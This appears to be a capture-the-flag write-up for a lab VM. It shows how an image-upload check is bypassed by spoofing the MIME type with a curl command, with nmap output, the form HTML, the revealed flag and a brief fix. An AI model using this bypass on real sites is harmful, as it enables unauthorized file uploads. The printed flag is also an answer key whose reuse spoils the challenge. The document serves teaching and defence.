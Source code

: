 # <span style="text-decoration: underline"> File Upload </span>

- Tags : `file` , `image` , `upload`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : orange">Medium</span>

___

## <span style="text-decoration: underline">problem</span>

During our `nmap` scans from other challenges we found out that there exists different pages

```bash
$ sudo nmap -q --script=http-csrf   192.168.1.23

Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-25 21:17 CEST
Nmap scan report for 192.168.1.23
Host is up (0.00018s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.1.23
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.1.23:80/?page=signin
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=upload
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=member
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=searchimg
|     Form id: 
|_    Form action: #
4242/tcp open  vrml-multi-use
MAC Address: 08:00:27:CD:44:94 (Oracle VirtualBox virtual NIC)
```

> For this write we will be intereseted on `http://192.168.1.23:80/?page=upload`

?> We can also access this page using the `ADD IMAGE` button from the **home page**

When we visit the **upload** page (http://192.168.1.23:80/?page=upload) we see the following

> ![upload page](/.resources/images/upload_index.png)

We can see there is a `brows` button and there is a `UPLOAD` button. On top of all the button it says **Choose an image to upload**. From this we can guess that we have to upload an **image** file.

When we try to upload a `png` image file it shows the following message **`Your image was not uploaded.`**. It didn't work for us. When we change the extention from `png` to `jpeg` and try to upload again it shos the following message **`/tmp/img.jpeg succesfully uploaded.`**. It seems like the server do not verify the content of the file when we upload them but it verifies the extention. To prouve our theory we create an empty file and give it the name `any.jpeg` and try to upload it. It gives us the following message **`/tmp/any.jpeg succesfully uploaded.`**.

?> This is is typically the situation for website that shows the raw image that you upload them. In many occasion in the old days we could find website that let you upload images and you could see those images using the url of the image in `raw` format. By `raw` i mean it is not treated or modified nor it is shown using a program. it is shows directly from the uploaded directory. In this kind of situation hackers used to upload `php` scripts (because most of those sites ware made using `php` programs) and as the name of the file was not modified, to execute the uploaded `php` scripts only by eccessing the url.

!> In our case it seems like the extention of the file has to be `jpeg` or `jpg` to upload it through the means they have given us.

When we inspect the `form` for upload we find the following `html` code

```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```

Where we see that the form uses the following fields do the `POST` request

|Key|Value|
|---|-----|
|MAX_FILE_SIZE|100000|
|uploaded| [Our "image" file that we want to upload]|
|Upload|Upload|

!> Sadly we can not modify the `input` type to `image` so that we can **try** to fool the server to think the uploaded element is an image

## <span style="text-decoration: underline">Solution</span>

Using curl we can easily upload a file with a the `type` name we want. Here is our command to do that

```bash
url -s -F "uploaded=@img.png;type=image/jpeg" -F Upload=Upload "http://192.168.1.23/?page=upload" | grep flag
```
|Option|Description|
|--|--|
|`-s` | Silent|
|`-F`|( — form) option, which will add `enctype=”multipart/form-data”` to the request.|

this gives us the following result

```bash
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/img.png succesfully uploaded.</pre>
```

?> We use the `;type=image/jpeg` to tell the server that this has a file type of an `image` 
?> After some playing arround we can see that the `MAX_FILE_SIZE` parameter is not needed.

# <span style="text-decoration: underline">How to avoid the problem</span>
This kind of problem could be evoided by not only checking the file `extention` but also by checking the type of file by looking inside the file's content.


# <span style="text-decoration: underline">Flag

```text
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

# <span style="text-decoration: underline">Resources</span>

- [Upload files with CURL](https://medium.com/@petehouston/upload-files-with-curl-93064dcccc76)
- [File type using CURL](https://stackoverflow.com/a/4074949/4440716)
- [Send a file via POST with cURL and PHP](https://blog.derakkilgo.com/2009/06/07/send-a-file-via-post-with-curl-and-php/)
